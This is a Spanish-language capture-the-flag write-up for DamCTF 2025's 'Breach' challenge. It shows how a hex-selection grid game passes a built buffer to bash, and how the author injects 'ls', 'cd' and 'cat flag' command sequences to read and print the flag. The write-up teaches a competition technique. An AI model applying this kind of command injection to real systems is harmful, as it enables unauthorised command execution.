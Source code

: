 ```yaml
---
title: Breach - DamCTF2025
author: Kesero
description: Reto basado escapar de un binario inyectando instrucciones en hexadecimal aportadas.
date: 2025-05-11 10:00:00 +0000
categories: [Writeups Competiciones Internacionales, Miscelánea]
tags: [Misc, Writeups, Dificultad - Media, Misc - Jail]
pin: false
math: true
mermaid: true
image:
  path: https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Breach/img/1.png
  lqip: 
  alt: 
comments: true
---
```

Autor del reto: `tlop`

Dificultad: <font color=orange>Media</font>

## Enunciado

`hack the mainframe, choom. eddies for days. ssh chal@breach.chals.damctf.xyz pw: chalworksnow`

## Archivos

Este reto nos los siguientes archivos.

- `breach` : Contiene el binario del programa ejecutándose en el servidor.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Breach).


## Analizando el reto

Al ejecutar el binario nos encontramos el siguiente programa.

```
████████████████████████████████████████████████████████████
█///////////////NET/TECH///////////////////////////////////█

BUFFER: []
SEQUENCE REQUIRED TO UPLOAD
[63][66][20][3b][74] NEUTRALIZE MALWARE
[67][20][67][3b][6c][74][3b][20] DATAMINE: COPY MALWARE

DEBUG: AXIS: x
[74] 63  63  2D  73  73  20  6C  63  2D 
 3B  74  66  74  3B  6C  67  66  20  73 
 74  67  67  74  61  20  3B  73  6C  2D 
 67  52  64  6C  61  3B  73  20  66  73 
 61  61  61  2D  6C  66  67  63  63  3B 
 67  64  66  61  52  67  20  67  63  63 
 66  64  64  52  74  2D  73  20  52  74 
 6C  63  6C  20  20  67  66  6C  66  3B 
 3B  64  2D  3B  6C  61  2D  61  61  20 
 63  52  6C  74  64  66  3B  20  6C  52 

Controls:
[Arrows] Move | [Space] Select | [Enter] Submit | [q] Quit
█///////////////////////////////////NET/TECH///////////////█
████████████████████████████████████████████████████████████
```

En el cual podemos encontrar una matriz de cadenas en hexadecimal la cual el usuario alterará entre fila y columna seleccionada cada vez que introduzca un la tecla `enter`

## Solver

Primero vamos a entendre cómo funciona el binario.

1. Comenzamos moviendo ls filas de la matriz, es decir, tenemos aceso a movernos horizontalmente por la primera fila.

2. No podemos movernos diagonalmente.

3. Cada vez que introducimos un valor, los ejes cambian y tendremos acceso a las columnas (y viceversa)

4. El eje que podemos mover saldrá en la sección de `[DEBUG]`

En este ejercicio, tenemos que encontrar la combinación de teclas que nos permita listar el contenido de la flag en la máquina perteneciente al servidor. Para ello primero que nada tenemos que ir jugando y probando combinaciones de valores de los inputs aportados. Despúes de analizar los valores, podemos encontrar que los siguientes caracteres corresponden a los siguientes valores únicos.

```
20 - " "
2d - "-"
3b - ";"
6c - "l"
52 - "R"
61 - "a"
63 - "c"
64 - "d"
66 - "f"
67 - "g"
73 - "s"
74 - "t"
```

Además, sabemos que todos los caracteres mencionados previamente, se traducirán en comandos `bash` por parte del servidor. Por ejemplo, vamos a probar a ejecutar el comando `ls` en el servidor. Para ello tendremos que introducir la secuencia `6c 73`. El resultado es el siguiente.

```
████████████████████████████████████████████████████████████
█///////////////NET/TECH///////////////////////////////////█

BUFFER: [6C 73 ]
SEQUENCE REQUIRED TO UPLOAD
[63][66][20][3b][74] NEUTRALIZE MALWARE
[67][20][67][3b][6c][74][3b][20] DATAMINE: COPY MALWARE

DEBUG: AXIS: x
BREACH FAILED. ERROR:
breach
```

A simple vista puede parecer que no encontramos información, pero en el directorio actual de trabajo tenemos el binario `breack` por lo que está listando el contenido en mi carpeta. Si lo hacemos en el servidor en remoto, obtenemos lo siguente.

´´´
████████████████████████████████████████████████████████████
█///////////////NET/TECH///////////////////////////////////█

BUFFER: [6C 73 ]
SEQUENCE REQUIRED TO UPLOAD
[63][66][20][3b][74] NEUTRALIZE MALWARE
[67][20][67][3b][6c][74][3b][20] DATAMINE: COPY MALWARE

DEBUG: AXIS: x
BREACH FAILED. ERROR:
alft
altf
atfl
falt
flat
latf
´´´

Podemos ver que existen unos archivos o directorios que se llamana `alft altf atfl falt flat latf`
Para saber de qué se trata este conjunto, podemos utilizar el comando `ls -fl` el cual se traduce a la combinación `6c 73 20 2d 66 6c`. El resultado es el siguiente.

```
████████████████████████████████████████████████████████████
█///////////////NET/TECH///////////////////////////////////█

BUFFER: [6C 73 20 2D 66 6C ]
SEQUENCE REQUIRED TO UPLOAD
[63][66][20][3b][74] NEUTRALIZE MALWARE
[67][20][67][3b][6c][74][3b][20] DATAMINE: COPY MALWARE

DEBUG: AXIS: x
BREACH FAILED. ERROR:
total 0
drwxr-xr-x. 1 root root 18 May 10 07:44 .
drwxr-xr-x. 1 root root 39 May 12 00:09 ..
drwxr-xr-x. 1 root root 18 May 10 07:44 altf
drwxr-xr-x. 2 root root  6 May 10 07:44 alft
drwxr-xr-x. 2 root root  6 May 10 07:44 atfl
drwxr-xr-x. 2 root root  6 May 10 07:44 falt
drwxr-xr-x. 2 root root  6 May 10 07:44 flat
drwxr-xr-x. 2 root root  6 May 10 07:44 latf
```
Perfecto, ahora sabemos que los archivos listados se corresponden con carpetas. Llegados a este punto, tendremos que introducir el comando `cat` seguido del nombre la carpeta y listar su contenido para observar los archivos en su interior (esto es posible por que tenemos el juego de caracteres a nuestra disposición) Por tanto lo que ejecutaremos será el comando `cd <nombre_carpeta>;ls -l` que se traduce al comando `63 64 20 <nombre_carpeta> 3b 6c 73 20 2d 6c`.

En este caso, podemos observar como la carpeta `altf` tiene un tamaño de 18 bytes y es la mayor de todas ellas, podemos asumir que la flag está en es directorio, así nos ahorraremos intentos en el camino.

Por ejemplo, si queremos leer la carpeta `altf` tendremos que introducir el comando `63 64 20 61 6c 74 66 3b 6c 73 20 2d 6c`

```
████████████████████████████████████████████████████████████
█///////////////NET/TECH///////////////////////////////////█

BUFFER: [63 64 20 61 6C 74 66 3B 6C 73 20 2D 6C ]
SEQUENCE REQUIRED TO UPLOAD
[63][66][20][3b][74] NEUTRALIZE MALWARE
[67][20][67][3b][6c][74][3b][20] DATAMINE: COPY MALWARE

DEBUG: AXIS: y
BREACH FAILED. ERROR:
total 4
-rw-r--r--. 1 root root 35 May 10 04:48 flag
```

Listo, hemos encontrado el archivo de la flag. Ahora solo queda listarla, para ello nuevamente utilizaremos el comando `cd altf;cat flag` que se corresponde con el comando `63 64 20 61 6C 74 66 3B 63 61 74 20 66 6C 61 67`. El resultado es el siguiente.


```
████████████████████████████████████████████████████████████
█///////////////NET/TECH///////////////////////////////////█

BUFFER: [63 64 20 61 6C 74 66 3B 63 61 74 20 66 6C 61 67 ]
SEQUENCE REQUIRED TO UPLOAD
[63][66][20][3b][74] NEUTRALIZE MALWARE
[67][20][67][3b][6c][74][3b][20] DATAMINE: COPY MALWARE

DEBUG: AXIS: y
BREACH FAILED. ERROR:
bash: line 1: af: command not found
dam{ac<ident4lly_mad3_a_ds&a_ch@l}
```

## Flag
`dam{ac<ident4lly_mad3_a_ds&a_ch@l}`